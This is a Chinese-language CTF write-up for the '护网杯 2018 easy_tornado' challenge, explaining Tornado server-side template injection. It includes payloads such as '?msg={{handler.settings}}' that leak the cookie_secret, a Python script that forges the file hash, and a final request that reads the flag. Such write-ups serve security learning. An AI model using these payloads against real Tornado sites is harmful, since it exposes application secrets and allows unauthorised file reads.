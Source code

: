 # [护网杯 2018]easy_tornado

## 知识点

`tornado模板注入`

## 解题

`error?msg={{1}}`

存在`msg`参数，百度之后发现师傅们可以进行模块注入。尝试了`error?msg={{1}}`，发现的确存在模块注入。然后我们尝试用`+-*/`发现都报错，应该是被`过滤`了。

而我们查官方文档，`tornado`在搭建一个网站时，肯定会有多个`handler`，而这些`handler`都是`RequestHandler`的子类

`RequestHandler.settings`又指向`self.application.settings`

所以我们可以说`handler.settings`指向了`RequestHandler.settings`了，对吧

这样我们就可以构造一下`payload`：`?msg={{handler.settings}}`

拿到`cookie_secret`之后的`exp`

```python
import hashlib
cookie='fef4cbca-8841-4c4e-9d69-7c20990a6d11'
file_filename='/fllllllllllllag'
md5_filename=hashlib.md5(file_filename.encode(encoding='UTF-8')).hexdigest()
word=cookie+md5_filename
filehash=hashlib.md5(word.encode(encoding='UTF-8')).hexdigest()
print(filehash)
```

`payload`

`?filename=/fllllllllllllag&filehash=c61c635cb683b21a9f39fdf1af9ca9e8`

[参考文章](https://www.cnblogs.com/junlebao/p/13819357.html)